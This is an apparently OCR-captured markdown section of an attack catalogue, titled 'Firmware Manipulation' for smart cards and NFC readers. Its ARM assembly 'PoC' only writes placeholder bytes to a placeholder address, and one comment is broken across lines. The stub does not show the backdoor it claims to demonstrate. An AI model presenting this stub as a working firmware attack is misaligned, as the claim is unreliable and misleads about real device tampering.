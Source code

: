 ## 6. Firmware Manipulation

### Overview
This attack demonstrates how an attacker can modify the firmware of the smart card or NFC reader to introduce backdoors or disable security features.

### PoC Code

```assembly
.section .data
    firmware_patch: .byte 0x01, 0x23, 0x45, 0x67  ; Example firmware patch data
    firmware_address: .word 0x20000000           ; Example address to apply the patch
    response_buffer: .space 256

.section .text
.global _start

_start:
    bl initialize
    ldr r0, =firmware_patch        ; Load address of firmware patch data
    ldr r1, =firmware_address      ; Load address where the patch should be applied
    bl apply_firmware_patch        ; Call firmware patch function

    ; Exit program
    mov r7, #1
    svc 0

initialize:
    ; Initialize environment

 and hardware
    ldr r0, =0x10000000             ; Example base address for NFC reader configuration
    mov r1, #0x1                    ; Example configuration value
    str r1, [r0]                    ; Write configuration value to NFC reader base address

    ; Clear the response buffer
    ldr r2, =response_buffer
    mov r3, #256
    mov r4, #0x00

clear_buffer:
    strb r4, [r2], #1
    subs r3, r3, #1
    bne clear_buffer

    mov pc, lr                      ; Return from function

apply_firmware_patch:
    ; Apply the firmware patch by writing to the specified memory address
    ldr r2, [r1]                    ; Load firmware address
    ldr r3, [r0]                    ; Load firmware patch data
    str r3, [r2]                    ; Apply patch
    mov pc, lr                      ; Return from function
```
